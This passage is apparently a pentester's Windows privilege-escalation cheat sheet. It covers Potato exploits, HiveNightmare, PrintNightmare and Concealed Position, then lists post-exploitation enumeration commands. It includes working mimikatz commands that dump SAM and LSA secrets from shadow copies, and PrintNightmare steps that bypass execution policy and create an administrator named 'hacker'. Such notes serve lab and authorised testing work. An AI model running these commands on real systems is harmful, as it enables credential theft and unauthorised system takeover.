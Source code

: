 Then access this symlink
### Specific Exploits
##### Potatoes
Hot Potato is patched in MS16-075
Juicy (> Lonely > Rotten) Potato for machines < Windows 10 1809 & Windows Server 2019
Otherwise: Rogue Potato
But: **Sweet Potato can do it all**
Except when the print service is not running. Then try Generic Potato
##### HiveNightmare
CVE-2021–36934, Win 10/11, see [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#hivenightmare)
Check: `icacls C:\Windows\System32\config\SAM` (Must include `BUILTIN\Users:(I)(RX)` to be vulnerable)
Abuse (mimikatz): `token::whoami /full` -> `misc::shadowcopies` ->
```mimikatz
lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```
##### PrinterNightmare
CVE-2021-1675/CVE-2021-34527 (see [HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/printnightmare))
Check: `ls \\localhost\pipe\spoolss` (Should NOT say "path does not exist")
Abuse: Transfer `/home/kali/Documents/exploits/Windows/CVE-2021-1675.ps1` to victom -> `Set-ExecutionPolicy Bypass -Scope Process` -> "A" -> `Import-Module .\CVE-2021-1675.ps1` -> `Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"`
##### Concealed Position
[CVE-2021-34481](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34481)
`/home/kali/Documents/exploits/Windows/ConcealedPosition/`
https://github.com/jacob-baines/concealed_position
## Loot for later
##### Home folder
```powershell
dir /B /S /A-D
```

```powershell
Get-ChildItem -Recurse -Path C:\Users\offsec | select Parent,Name
```
	
##### Network interfaces
```powershell
ipconfig /all
```
Alternative: `Get-NetIPConfiguration | ft InterfaceAlias,InterfaceDescription,IPv4Address; Get-DnsClientServerAddress -AddressFamily IPv4 | ft`
##### Firewall settings
```powershell
netsh advfirewall show currentprofile, netsh advfirewall firewall show rule name=all
```
##### Gateways
```powershell
route print
```
Alternative: `Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex`
##### ARP-Cache
```
arp -a
```
Alternative: `Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State`